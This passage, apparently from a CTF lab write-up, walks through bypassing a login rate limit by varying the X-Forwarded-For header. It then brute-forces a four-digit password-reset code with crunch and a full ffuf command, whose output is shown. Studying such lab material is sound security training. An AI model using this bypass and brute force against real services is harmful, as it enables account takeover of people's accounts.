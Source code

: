 We can see when are add the header the `rate-limit-pending` resets, and upon further testing we find that the `X-Forwarded-For` header does not even need to be a valid IP address

![X-Forwarded-For](/assets/img/CTFs/Hammer/x_forwarded_2.jpg)

Now that we can bypass the rate limiting we can brute force the recovery code using `ffuf` 

First we need to generate a wordlist of 4 digit numbers, we can do this using `crunch` 

```console
┌──(kali㉿kali)-[~/Hammer]
└─$ crunch 4 4 -t "%%%%" -o 4digits.txt 
Crunch will now generate the following amount of data: 50000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 10000 

crunch: 100% completed generating output
```

Now we can use this wordlist to brute force the recovery code, 

```console 
┌──(kali㉿kali)-[~/Hammer]
└─$ ffuf -X POST -d "recovery_code=FUZZ&s=180" -H "Content-Type: application/x-www-form-urlencoded" -H "X-Forwarded-For: FUZZ" -H "Cookie: PHPSESSID=8g66jsvhbo4r6p794cq0u555vu" -u http://10.10.143.38:1337/reset_password.php -w 4digits.txt -fr "Invalid or expired recovery code\!"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.143.38:1337/reset_password.php
 :: Wordlist         : FUZZ: /home/kali/Hammer/4digits.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : X-Forwarded-For: FUZZ
 :: Header           : Cookie: PHPSESSID=8g66jsvhbo4r6p794cq0u555vu
 :: Data             : recovery_code=FUZZ&s=180
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid or expired recovery code!
________________________________________________

4053                    [Status: 200, Size: 2191, Words: 595, Lines: 53, Duration: 100ms]
:: Progress: [10000/10000] :: Job [1/1] :: 176 req/sec :: Duration: [0:00:36] :: Errors: 0 ::
```